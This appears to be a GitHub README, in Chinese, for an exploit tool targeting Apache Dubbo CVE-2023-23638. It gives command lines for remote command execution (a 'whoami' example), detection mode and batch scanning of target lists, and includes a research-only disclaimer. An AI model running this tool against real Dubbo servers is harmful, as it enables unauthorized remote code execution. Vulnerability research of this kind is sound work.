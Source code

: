 # 更全面的Dubbo漏洞扫描工具见我的另一个项目：https://github.com/YYHYlh/Dubbo-Scan

# Apache-Dubbo-CVE-2023-23638-exp
Apache Dubbo (CVE-2023-23638)漏洞利用的工程化实践，覆盖Dubbo 3.x 从服务发现到漏洞利用及回显的过程。本工具仅供研究和学习，欢迎各位师傅前来探讨和提出宝贵的建议。

# 工具说明

本工具支持CVE-2023-23638在Dubbo 3.x的完整利用，覆盖服务发现到漏洞利用及回显。在Dubbo 2.x版本也可以利用，需要自行传入服务名、方法名等。针对这个漏洞我写了两篇分析文章：
1. [漏洞利用](https://yyhylh.github.io/2023/04/08/Apache%20dubbo%20%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2023-23638%EF%BC%89%E5%88%86%E6%9E%90%E5%8F%8A%E5%88%A9%E7%94%A8%E6%8E%A2%E7%B4%A2/)
2. [漏洞回显](https://yyhylh.github.io/2023/05/11/Apache%20Dubbo%20%EF%BC%88CVE-2023-23638%EF%BC%89%E5%AE%8C%E6%95%B4%E5%88%A9%E7%94%A8%E5%8F%8A%E5%B7%A5%E7%A8%8B%E5%8C%96%E5%AE%9E%E8%B7%B5/)

本工具仅作学习使用，未考虑诸多实战中的问题，例如：
1. 自定义服务名、方法名利用
2. ~~字节码java编译的版本问题~~

~~后续会继续更新~~

本项目不会再更新，关于Dubbo更全面的扫描和利用后续会在另一个项目中开源，敬请期待！

感谢y4tacker师傅分享的fastjson原生反序列化思路

# 命令行

单URL漏洞利用
```
java -jar CVE-2023-23638.jar TARGET_IP TARGET_PORT COMMAND CHARSET(default UTF-8)
e.g.:
  java -jar CVE-2023-23638.jar 127.0.0.1 20880 whoami
```

单URL漏洞无损检测
```
java -jar CVE-2023-23638.jar -s TARGET_IP TARGET_PORT
e.g.:
  java -jar CVE-2023-23638.jar -s 127.0.0.1 20880
```

批量检测
```
1.txt:
127.0.0.1:20880
192.168.1.1:20880


java -jar CVE-2023-23638.jar -f FILE_PATH
e.g.:
  java -jar CVE-2023-23638.jar -f 1.txt
```

# GUI
1. 注入字节码
  ![image](https://github.com/YYHYlh/YYHYlh.github.io/blob/main/source/img/CVE-2023-23638/image_3cwuAHt8rp.png)
  
2. 命令执行
  ![image](https://github.com/YYHYlh/YYHYlh.github.io/blob/main/source/img/CVE-2023-23638/image_JssjAyeoi2.png)


# 免责声明
本工具仅漏洞研究和学习，如您需要测试本工具的可用性，请自行搭建靶机环境。
在使用本工具进行检测时，您应确保该行为符合当地的法律法规，并且已经取得了足够的授权。请勿对非授权目标进行扫描。
如您在使用本工具的过程中存在任何非法行为，您需自行承担相应后果，我们将不承担任何法律及连带责任。

# 参考文档

1. https://y4tacker.github.io/2023/03/20/year/2023/3/FastJson%E4%B8%8E%E5%8E%9F%E7%94%9F%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/
2. https://y4tacker.github.io/2023/04/26/year/2023/4/FastJson%E4%B8%8E%E5%8E%9F%E7%94%9F%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96-%E4%BA%8C/
